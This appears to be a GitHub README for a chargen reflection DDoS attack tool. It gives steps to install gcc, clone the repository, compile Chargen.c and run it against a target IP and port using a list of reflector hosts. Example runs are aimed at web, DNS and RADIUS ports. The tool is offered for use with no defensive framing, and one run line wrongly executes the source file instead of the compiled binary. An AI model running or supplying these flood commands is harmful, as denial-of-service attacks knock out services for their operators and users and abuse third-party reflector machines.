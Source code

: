 # DDOS-Attack-Chargen-Stable-Version
Chargen.c

-requirements:gcc package 
 apt-get update 
apt-get install gcc

-git clone https://github.com/Dev0uss/DDOS-Attack-Chargen-Stable-Version

-cd DDOS-Attack-Chargen-Stable-Version
 
-Compilation:

gcc -pthread Chargen.c -o chargen

-Execute:

./Chargen.c IP 1812 chargen.txt 2 -1 3600

Other Examples:
# ./Chargen TEST-IP 80 chargenliste.txt 2 -1 3600
# ./Chargen TEST-IP 80 chargenliste.txt 1 -1 120
# ./Chargen DNS-IP 53 chargenliste.txt 1 -1 120
